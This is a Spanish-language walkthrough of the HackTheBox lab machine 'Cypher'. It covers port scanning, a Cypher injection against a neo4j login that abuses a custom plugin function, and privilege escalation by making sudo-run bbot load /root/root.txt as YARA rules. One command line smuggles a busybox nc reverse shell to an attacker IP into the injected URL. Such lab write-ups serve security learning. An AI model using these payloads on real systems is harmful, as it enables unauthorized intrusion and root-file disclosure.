 ```yaml
---
title: Cypher - HackTheBox Season 7
date: 2025-03-09 11:00:00 +0000
layout: post
permalink: /writeups/HTB/LABS/cypher-htb-season7
image:
  path: /assets/img/writeups/hackthebox/cypher_htb_s7/cypher.png
  alt: HackTheBox
description: >
  Guía en español para Cypher - HackTheBox Season 7
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 20:19 CET
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto web 

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image.png)

En el portal web encontramos lo que parece una aplicación que utiliza grafos para mostrar la información sobre la superficie de ataque de un objetivo o empresa.

Si hacemos click en probar el demo nos redirige a un portal para iniciar sesión.

Probando inyección básica para probar el login vemos lo siguiente:

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-1.png)

Vemos que efectivamente tenemos posibilidad de inyectar comandos en el portal web pero la base de datos (como era de esperar por la naturaleza de la aplicación) es de tipo NOSQL, es neo4j y se basa en bases de datos para grafos.

Tras un rato probando direntes inyecciones de tipo cypher no conseguí nada efectivo.

[Cypher inyections cheatsheet](https://pentester.land/blog/cypher-injection-cheatsheet/)

## Fuzzing de directorios 

Mientras tanto realizamos un fuzzing de directorios sobre la web y por suerte encontramos una ruta que parece ser interesante.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-2.png)

Dentro encontramos un archivo `.jar` con nombre apoc-extensión que puede ser potencialemente valioso ya que se trata de una extensión utilizada por neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-3.png)

Al abirlo en un decodificador online de jar encontramos que efectivamente se trata de un plugin para la base de datos neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-4.png)

Dentro del código vemos una clase interesante que añade una función para hacer petciones HTTP y devuelve el estado de la misma.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-5.png)

## Inyección cypher en neo4j

Para hacer uso de esta función customizada en la base de datos necesitamos llamarla con el prefijo `custom.` y el nombre de la función, pero antes debemos fijarnos en como toma el valor del nombre de usuario la base de datos y para esto podemos servirnos del error obtenido en Burp.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-6.png)

Sabiendo que esto es así podemos crear el payload de inyección y probarlo.

```bash
a' return h.value as a UNION CALL custom.getUrlStatusCode("http://10.10.16.73:80;busybox nc 10.10.16.73 4444 -e /bin/bash;#") YIELD statusCode AS a RETURN a;//
```

Utilizamos la revshell con busybox ya que parece que el sistema no tiene nc por defecto o no lo tiene referenciado en el PATH.

> Dato : busybox es un binario multi-herramienta común en sistemas embebidos o con recursos limitados. Muchas distribuciones minimalistas (como routers, IoT o contenedores) no incluyen nc independiente, pero sí busybox, que integra nc entre otras utilidades.
{: .prompt-info}

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-7.png)

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-8.png)

Ahora tenemos acceso a la maquina como el usuario neo4j.

Tras un rato mirando archivos encontramos algo interesante, unas credenciales de acceso.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-9.png)

> Nota : Este usuario no tiene privilegios para acceder a la user flag.
{: .prompt-warning}

## Acceso como usuario

Probando las credenciales encontradas con el usuario `graphasm` por ssh tenemos acceso a la maquina.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-10.png)

### User flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-11.png)

## Escalada de privilegios

Haciendo una comprobación básica de permisos sudo vemos que tiene permisos root en la ejecución de cun binario llamado `bbot`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-12.png)

[BBot Github](https://github.com/blacklanternsecurity/bbot)

Parece que BBot es una herramienta de reoconocimiento automatizada para la exploración de vulnerabilidades en aplicaciones web.

En la wiki buscando que módulos tiene que puedan ser útiles encontramos las yara rules.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-13.png)

Esto nos permite cargar reglas yara para buscar en el código de la aplicación web. 

El plan es indicar que la flag como root.txt es un fichero de reglas yara para que este lo cargue ya que tiene privilegios root.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-14.png)

Parece que carga los datos del fichero pero no muestra nada de las reglas.

Buscando más información en los parámetros de uso de BBot encontramos un parámetro llamado `-d` que basicamente es igual a un clásico `--verbose`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-15.png)

Esto nos mostrará más información en el proceso de carga de las reglas.

> Nota : El parámetro marcado con una flecha no lo usé pero es muy útil ya que para el escaneo antes de ser ejecutado pero siempre podemos pararlo manualmente con Ctrl+C.
{: .prompt-info}

Si ahora ejecutamos el comando con el parámetro `-d` podemos ver que se está cargando el archivo de la flag como una regla yara y muestra el contenido de la misma.

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt -d
```
### Root flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-16.png)
